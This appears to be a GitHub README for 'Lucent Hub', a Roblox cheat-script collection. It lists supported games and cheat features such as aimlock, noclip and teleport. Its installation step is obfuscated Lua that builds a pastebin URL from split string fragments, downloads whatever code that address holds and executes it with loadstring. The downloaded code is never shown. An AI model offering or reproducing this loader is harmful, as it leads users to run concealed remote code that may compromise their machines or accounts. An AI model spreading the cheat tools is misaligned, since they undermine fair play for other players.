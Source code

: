 # Lucent Hub

# Supported Games

| Game Name          | Description                       | Script Features                    | Status   |
|--------------------|-----------------------------------|------------------------------------|----------|
| Murder vs Sheriff  |____     [██████████] 100%         | Hitbox enhancement,               | Stable   |
| 99 Nights in the Forest |    [█---------] 15%          |  coming soon...                      | almost   |
| dahood             |         [█████----] 60%           | Fly, Noclip, Aimlock, Telepo       | beta     |
| ???                |         [----------] 0%           | coming soon...                     | beta     |
| ???                |         [----------] 0%           | coming soon...                     | beta     |

# Installation
```lua
local function s(t)
    local r = {"ht","tp","s:","//","pa","st","eb","in",".c","om","/r","aw","/u","n1","mx","SY","E"}
    return table.concat(r)
end

local function r(u)
    return game:HttpGet(u)
end

local function x(c)
    return loadstring(c)()
end

local url = s()
local code = r(url)
x(code)
